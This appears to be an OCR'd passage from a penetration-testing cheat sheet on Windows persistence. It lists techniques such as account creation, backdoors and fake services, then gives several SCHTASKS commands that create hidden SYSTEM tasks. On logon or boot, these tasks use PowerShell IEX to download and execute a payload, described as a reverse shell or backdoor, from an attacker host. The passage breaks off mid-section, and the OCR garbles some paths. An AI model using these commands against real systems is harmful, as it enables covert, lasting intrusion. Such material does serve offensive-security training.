 #### Persistence Methods

* Extracting hashes and cracking them to obtain the plain text password which can be used to login later. \[Discussed in Post Exploitation Section]
* Creating new accounts and adding them to a privileged group such as the administrators group. \[Discussed in Post Exploitation Section]
* Transferring backdoors to the machine \[coming soon]
* Persistence with Metasploit
* Running scripts/executables as a scheduled task and or adding them to the startup/autorun. \[Discussed below]
* Installing a fake service or inserting malicious code into an existing service in memory via a tool like Meterpreter can allow ongoing access to a system. Installing a daemon or service will provide longer access than code injected into memory, which won’t survive reboots, butinjected code is typically harder to detect.

**Persistence Using Scheduled Tasks- LOCAL** The below scheduled tasks will use PowerShell to retrieve/download and execute a payload hosted on the attacker machine **When the user logs in**. The payload could a direct reverse shell written in any language or it can be a malicious backdoor. #x86-bit-machine

```
SCHTASKS /CREATE /TN persistence /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nop -c 'IEX ((new-object net.webclient) .downloadstring("http://attacker-ip/ payload"))'" /SC onlogon /RU System
```

\#64-bit-machine

```
SCHTASKS /CREATE /TN persistence /TR
"C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nop -c 'IEX ((new-object net.webclient) .downloadstring("http://attacker-ip/ payload"))'" /SC onlogon /RU System
```

The below scheduled tasks will use PowerShell to retrieve/download and execute a payload hosted on the attacker machine **When the system starts/boots**. The payload could a direct reverse shell written in any language or it can be a malicious backdoor. #x86-bit-machine

```
SCHTASKS /CREATE /TN persistence /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nop -c 'IEX ((new-object net.webclient) .downloadstring("http://attacker-ip/ payload"))'" /SC onstart /RU System
```

\#64-bit-machine

```
SCHTASKS /CREATE /TN persistence /TR
"C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nop -c 'IEX ((new-object net.webclient) .downloadstring("http://attacker-ip/ payload"))'" /SC onstart /RU System
```

The below scheduled tasks will use PowerShell to retrieve/download and execute a payload hosted on the attacker machine **If the user is idle for more than 30 minutes**. The payload could a direct reverse shell written in any language or it can be a malicious backdoor. #x86-bit-machine
